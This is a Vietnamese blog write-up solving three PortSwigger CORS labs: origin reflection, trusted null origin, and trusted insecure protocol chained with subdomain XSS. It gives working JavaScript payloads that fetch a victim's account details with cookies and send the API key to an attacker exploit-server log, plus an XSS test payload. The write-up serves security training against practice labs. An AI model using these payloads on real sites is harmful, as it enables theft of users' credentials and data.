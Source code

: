 ```yaml
---
title: "[PortSwigger Lab] - Cross Origin Resource Sharing (CORS)"
description: Solution of Cross Origin Resource Sharing (CORS) on PortSwigger Lab
date: 2025-06-07 20:46:00 +0700
categories: [Cyber ​​Security, Web Pentest]
tags: [portswigger, burpsuite, labs, web, vulnerability, cors]   
pin: false
comments: true
image:
    path: https://raw.githubusercontent.com/waibui/blog-assets/refs/heads/main/imgs/posts/2025-06-07-portswigger-lab-cors/cors.png
    alt: Cross Origin Resource Sharing (CORS)
---
```


## Introduction
**Cross-Origin Resource Sharing (CORS)** là một cơ chế bảo mật của trình duyệt, cho phép hoặc từ chối các yêu cầu từ một origin khác với origin của trang web hiện tại. Nó mở rộng **Same-Origin Policy (SOP)** — chính sách chỉ cho phép các tài nguyên được truy cập nếu chúng đến từ cùng một origin (gồm `scheme`, `hostname` và `port`).

| **Tiêu chí**                       | **Same-Origin Policy (SOP)**                                                      | **Cross-Origin Resource Sharing (CORS)**                                                     |
| ---------------------------------- | --------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------- |
| **Mục tiêu chính**                 | Ngăn chặn website này truy cập dữ liệu riêng tư của website khác                  | Cho phép truy cập có kiểm soát đến tài nguyên từ origin khác                                 |
| **Phạm vi áp dụng**                | Trình duyệt web (JavaScript không được truy cập tài nguyên khác origin)           | Trình duyệt web (mở rộng khả năng truy cập cross-origin có kiểm soát)                        |
| **Thành phần xác định origin**     | Scheme (protocol), domain, port                                                   | Cũng dùng Origin (scheme + domain + port) để xác định ai được phép truy cập                  |
| **Hành vi mặc định**               | **Chặn** truy cập giữa các origin khác nhau                                       | **Không cho phép** nếu không có header CORS hợp lệ từ phía server                            |
| **Tác động đến JS**                | Không cho phép JavaScript đọc dữ liệu từ các trang khác origin                    | Cho phép nếu server gửi đúng header `Access-Control-Allow-Origin`                            |
| **Cho phép tải tài nguyên không?** | Có thể tải hình ảnh, script, font… từ domain khác (nhưng không được đọc nội dung) | Có thể cho phép đọc nội dung, gửi cookie nếu server đồng ý bằng header                       |
| **Kiểm soát từ phía nào?**         | Trình duyệt kiểm soát                                                             | Trình duyệt **và** server phối hợp (server phải trả header phù hợp)                          |
| **Có hỗ trợ cookie không?**        | Cookie được gửi theo origin, nhưng JS không thể đọc cookie của origin khác        | Có, nếu server trả `Access-Control-Allow-Credentials: true` và không dùng `*`                |
| **Tính mở rộng**                   | Không mở rộng – giới hạn nghiêm ngặt giữa các origin                              | Rất linh hoạt, nhưng dễ **cấu hình sai dẫn đến lỗ hổng bảo mật**                             |
| **Lỗi phổ biến**                   | Không có (vì chặn mặc định)                                                       | Phản hồi `Access-Control-Allow-Origin` với bất kỳ Origin (reflect origin) → **lỗ hổng CORS** |
| **Cách dùng phổ biến**             | Tự động, không cần cấu hình                                                       | Dùng khi website cần chia sẻ tài nguyên qua API hoặc frontend từ domain khác                 |

## Solve CORS Lab

| Thành phần                         | Giá trị phản ánh lỗi                              |
| ---------------------------------- | ------------------------------------------------- |
| `Access-Control-Allow-Origin`      | Phản chiếu lại bất kỳ `Origin` gửi lên            |
| `Access-Control-Allow-Credentials` | `true` (cho phép cookie được gửi đi và dùng)      |

### Lab: CORS vulnerability with basic origin reflection
#### Analysis
- Login bằng tài khoản được cấp 
- Mở **Proxy** > **HTTP History** của **Burp**
- Tìm request **AJAX** gửi đến `/accountDetails`, thấy response có header `Access-Control-Allow-Credentials: true` => Gợi ý rằng **server** có hỗ trợ **CORS**.
- Thêm header `Origin: https://evil.com` trong request để test server có **reflect Origin** không
- Server phản hồi `Access-Control-Allow-Origin: https://evil.com` => **reflect Origin**

=> Như này tất cả các request sẽ được trình duyệt chấp nhận 

#### Exploit
- Tạo script gửi đến victim
```html
    <script>
        var req = new XMLHttpRequest();
        req.onload = reqListener;
        req.open('GET', 'https://YOUR-LAB-ID.web-security-academy.net/accountDetails', true);
        req.withCredentials = true;  // Cho phép gửi cookie 
        req.send();

        function reqListener() {
            // Gửi kết quả (API key) về attacker (qua đường dẫn /log)
            location = '/log?key=' + this.responseText;
        };
    </script>
```
- Khi victim truy cập vào trang web của attacker, script trên được thực thi, theo hành vi mặc định, **browser** thêm **header Origin: evil.com** vào request, trong trường hợp này:
    - Server phản hồi lại `Access-Control-Allow-Origin: evil.com` và `Access-Control-Allow-Credentials: true`
    - Vì vậy request thành công khi server chấp nhận **Origin** và **cookie** từ **browser**
- Lấy **apikey** trong `/log` của **Exploit Server**, **smart decode** và submit

### CORS vulnerability with trusted null origin
#### Analysis
- Login bằng tài khoản được cấp 
- Mở **Proxy** > **HTTP History** của **Burp**
- Tìm request **AJAX** gửi đến `/accountDetails`, thấy response có header `Access-Control-Allow-Credentials: true` => Gợi ý rằng **server** có hỗ trợ **CORS**.
- Thêm header `Origin: https://evil.com` trong request để test server có **reflect Origin** không => Không
- Thêm header `Origin: https://YOUR-LAB-ID.web-security-academy.net` trong request để test server có **reflect Origin** không => Có
- Thêm header `Origin: null` trong request để test server có **reflect Origin** không => Có

=> Server chấp nhận cùng **origin** và **null** trong **while list**
#### Exploit
- Ý tưởng: Sử dụng kỹ thuật tấn công với `Origin: null` và **iframe sandbox**
- Tạo mã khai thác và gửi đến victim

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms"
    src="data:text/html,<script>
        var req = new XMLHttpRequest();
        req.onload = reqListener;
        req.open('get','https://0ad5002f03f83ae3b5d42fbe00c30040.web-security-academy.net/accountDetails',true);
        req.withCredentials = true;
        req.send();

        function reqListener() {
            location='https://exploit-0a5000f803e43a46b5f22ed0016300f2.exploit-server.net/log?key='+this.responseText;
        };
    </script>">
</iframe>
```

| Quyền                  | Tác dụng                                                               | Nguy cơ                                                                                                   |
| ---------------------- | ---------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------- |
| `allow-scripts`        | Cho phép iframe chạy JavaScript.                                       | Nhưng **JS không được truy cập DOM cha**, và origin là `"null"` nếu sandbox không có `allow-same-origin`. |
| `allow-top-navigation` | Cho phép iframe điều hướng top-level (thay đổi `window.top.location`). | Có thể dùng để redirect người dùng.                                                                       |
| `allow-forms`          | Cho phép gửi form (POST, GET...).                                      | Có thể gửi request, nhưng không đọc được phản hồi nếu bị CORS chặn.                                       |

- Lấy **apikey** trong `/log` của **Exploit Server**, **smart decode** và submit

### CORS vulnerability with trusted insecure protocols
#### Analysis
- Login bằng tài khoản được cấp 
- Mở **Proxy** > **HTTP History** của **Burp**
- Tìm request **AJAX** gửi đến `/accountDetails`, thấy response có header `Access-Control-Allow-Credentials: true` => Gợi ý rằng **server** có hỗ trợ **CORS**.
- Thử thêm **header Origin** khác nhau để test hành vi của **server** => chỉ chấp nhận cùng **origin** và bất kết **scheme** nào
- Thử khai thác thêm: 
    - Vào 1 post bất kỳ
    - Checkstock => xuất hiện 1 subdomain
    - Thử khai thác XSS và thành công với payload: `https://stock.0a3b002d04976b6e81260c3a00900075.web-security-academy.net/?productId=%3Cimg%20src=1%20onerror=alert()%3E&storeId=acb`
- Thử thay giá trị **header Origin** thành `https://stock.0a3b002d04976b6e81260c3a00900075.web-security-academy.net` và thành công => origin được server tin cậy

#### Exploit
- Ý tưởng: Từ lỗi XSS ở subdomain, tạo script đế tấn công lấy **apikey**
- Mã trong phần body của **Exploit Server**
```html
<script>
    document.location="http://stock.0a3b002d04976b6e81260c3a00900075.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a3b002d04976b6e81260c3a00900075.web-security-academy.net/accountDetails',true); req.withCredentials = true; req.send(); function reqListener() {location='https://exploit-0acf00f004266b3481b80b3b01a20006.exploit-server.net/log?key='%2bthis.responseText;};%3c/script>&storeId=1"
</script>
```
- Deliver to victim
- Lấy **apikey** trong `/log` của **Exploit Server**, **smart decode** và submit

---
Goodluck! 🍀🍀🍀 